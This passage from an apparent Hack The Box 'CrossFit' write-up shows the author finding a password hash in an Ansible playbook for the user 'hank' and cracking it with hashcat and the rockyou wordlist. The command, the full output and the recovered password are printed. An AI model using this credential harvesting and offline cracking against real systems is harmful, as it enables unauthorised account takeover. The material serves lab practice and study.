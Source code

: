 ```text
        password: $6$e20D6nUeTJOIyRio$A777Jj8tk5.sfACzLuIqqfZOCsKTVCfNEQIbH79nZf09mM.Iov/pzDCE8xNZZCM9MuHKMcjqNUd8QUEzC1CZG/
        groups: admins
        append: yes
```

After searching for files that had mentioned the user `hank`, I found `adduser-hank.yml` in the`/etc/ansible/playbooks` directory.  This file had a password hash in it that I copied to my machine for cracking.

```text
┌──(zweilos㉿kali)-[~/htb/crossfit]
└─$ hashcat --help | grep -i '$6'                                           
   1800 | sha512crypt $6$, SHA512 (Unix)                   | Operating System
                                                                                                        
                                                                                                   
┌──(zweilos㉿kali)-[~/htb/crossfit]
└─$ hashcat -O -D1,2 -a0 -m1800 hash /usr/share/wordlists/rockyou.txt       
hashcat (v6.1.1) starting...

Hashfile 'hash' on line 1 ($2y$10...e4oKoEa3Ro9llC/.og/at2.uheWG/igi): Token length exception
Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Optimized-Kernel
* Zero-Byte
* Single-Hash
* Single-Salt
* Uses-64-Bit

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 65 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$6$e20D6nUeTJOIyRio$A777Jj8tk5.sfACzLuIqqfZOCsKTVCfNEQIbH79nZf09mM.Iov/pzDCE8xNZZCM9MuHKMcjqNUd8QUEzC1CZG/:powerpuffgirls
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: sha512crypt $6$, SHA512 (Unix)
Hash.Target......: $6$e20D6nUeTJOIyRio$A777Jj8tk5.sfACzLuIqqfZOCsKTVCf...C1CZG/
Time.Started.....: Fri Jan 15 23:09:52 2021 (9 secs)
Time.Estimated...: Fri Jan 15 23:10:01 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     2873 H/s (8.31ms) @ Accel:64 Loops:512 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 23818/14344385 (0.17%)
Rejected.........: 10/23818 (0.04%)
Restore.Point....: 23562/14344385 (0.16%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4608-5000
Candidates.#1....: skorpion -> 211291

Started: Fri Jan 15 23:09:29 2021
Stopped: Fri Jan 15 23:10:02 2021
```